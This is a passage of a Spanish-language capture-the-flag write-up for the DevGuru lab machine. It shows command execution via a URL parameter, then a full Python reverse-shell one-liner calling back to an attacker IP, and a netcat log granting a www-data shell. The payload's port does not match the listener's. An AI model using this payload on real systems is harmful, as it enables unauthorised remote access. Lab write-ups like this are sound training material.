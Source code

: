 ![""](/assets/images/vh-devguru/devguru14.png)

Tendremos el error anterior, si en la dirección URL colocamos `?cmd=whoami`, vemos que ya podemos ejecutar comandos a nivel de sistema.

![""](/assets/images/vh-devguru/devguru15.png)

Cualquier opción que hayamos escogido para ejecutar comandos a nivel de sistema, para a ponernos en escucha por el puerto 443 y ahora tratar de entablarnos una reverse shell php:

```bash
http://devguru.local/?cmd=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.0.0.75] from (UNKNOWN) [10.0.0.96] 32792
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ 
```
